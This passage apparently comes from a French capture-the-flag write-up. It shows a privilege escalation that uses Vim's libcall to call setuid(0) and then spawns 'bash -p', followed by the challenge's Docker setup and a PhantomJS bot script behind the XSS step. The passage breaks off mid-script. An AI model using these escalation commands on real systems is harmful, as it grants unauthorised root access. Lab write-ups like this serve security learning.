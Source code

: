 Le cas de Vim semble plus compliqué mais je ne pouvais pas l'ignorer. Pour que ça fonctionne il faut que le programme appel de lui-même *setuid* ce qui serait possible par exemple si on chargeait une librairie en mémoire.  

C'est exactement ce que j'ai trouvé dans [une documentation sur Vim](https://vimhelp.org/eval.txt.html#libcall%28%29) :  

```plain
libcall({libname}, {funcname}, {argument})
                Call function {funcname} in the run-time library {libname}
                with single argument {argument}.
```

Il nous faut appeler cette commande préfixée de *echo* pour éviter un message d'erreur :  

```plain
:echo libcall("/usr/lib/x86_64-linux-gnu/libc.so.6", "setuid", 0)
```

La commande s'attend à recevoir les arguments de la même façon que la fonction c'est pour cela que le 0 n'est pas entre guillemets (sinon on obtient un UID qui n'existe pas sur le système).  

Une fois que Vim a récupéré le bit setuid on appel bash de façon classique :  

```plain
:!bash -p
```

Sous le capot
-------------

Les grandes étapes du CTF sont constituées de containers Docker :  

```plain
root@hotelww:/root# docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                           NAMES
27621f70edca        4ndr34z/wwcamera    "/entrypoint supervi…"   7 months ago        Up 29 hours         80/tcp, 443/tcp, 9000/tcp                       camera
ad38409077c4        54df9c863036        "/bin/ash -c /init.sh"   13 months ago       Up 29 hours         22/tcp                                          surfer
cc12d63f25ef        4ndr34z/wwproxy     "dumb-init sockd"        13 months ago       Up 29 hours         0.0.0.0:1080->1080/tcp                          proxy
70b3e0c40034        4ndr34z/hotelww     "/usr/bin/supervisord"   13 months ago       Up 29 hours         22/tcp, 443/tcp, 3306/tcp, 0.0.0.0:80->80/tcp   hotel
```

On peut étudier le mécanisme de Cross-Site Scripting dans le container *surfer* :  

```plain
root@hotelww:/root# docker exec -it ad38409077c4 /bin/sh
/ # cd /root
~ # ls
do.sh    surf.js
~ # cat do.sh
#!/bin/ash
while true
do
        /usr/local/bin/phantomjs /root/surf.js
        sleep 60
done
~ # cat surf.js
var page = require('webpage').create();
var url = "http://192.168.1.124/login.php";
page.settings.resourceTimeout = 5000; // 5 seconds
page.settings.userAgent = 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36';
page.onResourceTimeout = function(e) {                       
  phantom.exit(1); 
};
page.onConsoleMessage = function(msg, lineNum, sourceId) {
```